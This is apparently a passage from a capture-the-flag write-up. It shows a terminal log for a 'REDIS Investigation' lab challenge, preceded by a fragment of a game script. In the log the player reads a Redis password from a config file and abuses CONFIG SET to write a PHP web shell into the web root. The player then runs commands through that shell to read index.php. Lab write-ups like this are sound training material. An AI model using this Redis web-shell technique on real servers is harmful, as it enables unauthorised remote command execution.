 ```js
}
elf.tell_munch(answer)
elf.moveUp(2)
```

### REDIS Investigation

```
We need your help!!

The server stopped working, all that's left is the maintenance port.

To access it, run:

curl http://localhost/maintenance.php

We're pretty sure the bug is in the index page. Can you somehow use the
maintenance page to view the source code for the index page?

player@2de06680fac4:~$ curl http://localhost/maintenance.php


ERROR: 'cmd' argument required (use commas to separate commands); eg:
curl http://localhost/maintenance.php?cmd=help
curl http://localhost/maintenance.php?cmd=mget,example1

player@2de06680fac4:~$ curl http://localhost/maintenance.php?cmd=help
Running: redis-cli --raw -a '<password censored>' 'help'

redis-cli 5.0.3
...
player@2de06680fac4:~$ cat $(find / -name redis.conf 2>/dev/null) | grep pass 
cat: /usr/local/etc/redis/redis.conf: Permission denied
requirepass "R3disp@ss"
player@2de06680fac4:~$ redis-cli
127.0.0.1:6379> AUTH R3Disp@ss
(error) ERR invalid password
127.0.0.1:6379> AUTH R3disp@ss
K
127.0.0.1:6379> CONFIG SET dir /var/www/html
OK
127.0.0.1:6379> CONFIG SET dbfilename meep.php
OK
127.0.0.1:6379> SET PAYLOAD "<?php system(\$_GET['cmd']); ?>"
OK
127.0.0.1:6379> SAVE
OK
127.0.0.1:6379> 

player@2de06680fac4:~$ curl http://localhost/meep.php?cmd=cat+./index.php --output -
REDIS0009�      redis-ver5.0.3�
...
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
```
